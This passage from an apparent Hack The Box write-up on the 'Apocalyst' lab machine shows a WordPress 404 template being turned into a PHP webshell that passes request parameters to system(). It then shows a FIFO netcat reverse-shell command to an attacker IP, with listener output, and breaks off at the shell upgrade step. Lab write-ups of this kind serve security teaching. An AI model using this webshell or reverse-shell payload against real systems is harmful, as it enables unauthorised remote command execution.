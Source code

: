 
Now I’ll find a post that doesn’t exist. The top post on the main page leads
to `http://apocalyst.htb/?p=9`. Changing that 9 to 8 leads to the 404 page:

![image-20210205143953571](https://0xdfimages.gitlab.io/img/image-20210205143953571.png)

Now I’ll add the parameter `0xdf`, visiting
`http://apocalyst.htb/?p=8&0xdf=1`, and “0xdf” is printed right at the top:

    
    
    oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8&0xdf=1' | head
    0xdf<!DOCTYPE html>
    <html lang="en-GB" class="no-js no-svg">
    <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="profile" href="http://gmpg.org/xfn/11">
    
    <script>(function(html){html.className = html.className.replace(/\bno-js\b/,'js')})(document.documentElement);</script>
    <title>Page not found &#8211; Apocalypse Preparation Blog</title>
    <meta name='robots' content='noindex,follow' />
    

This shows I can write PHP that will be executed. I’ll change the code to a
webshell, `<?php if (isset($_REQUEST['0xdf'])){ system($_REQUEST['0xdf']);
echo "\n";} `, and now it executes commands:

    
    
    oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8&0xdf=id' | head -3
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    <!DOCTYPE html>
    

### Shell

I wasn’t able to get my go-to Bash reverse shell to work, but the FIFO `nc`
shell worked fine:

    
    
    oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8' --data-urlencode '0xdf=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f'
    

With the listener already running, it gets the shell:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.46] 35858
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

`python` isn’t on this host, but `python3` is, so I can upgrade my shell:
